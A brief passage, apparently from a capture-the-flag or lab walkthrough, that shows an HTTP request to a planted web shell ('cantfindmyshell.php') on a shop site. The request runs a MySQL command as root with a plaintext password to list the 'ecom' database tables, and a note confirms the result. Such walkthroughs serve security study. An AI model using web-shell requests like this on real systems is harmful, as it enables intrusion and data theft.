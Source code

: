 ![](/assets/img/11-mysql-ecom-tables.png)

`GET /shop/vqmod/xml/cantfindmyshell.php?var=mysql+-u+root+-pchangethis+-v+-e+"show+tables"+ecom HTTP/1.1`

Listed tables in the `ecom` database.

![](/assets/img/11-mysql-code-exec%20%281%29.png)
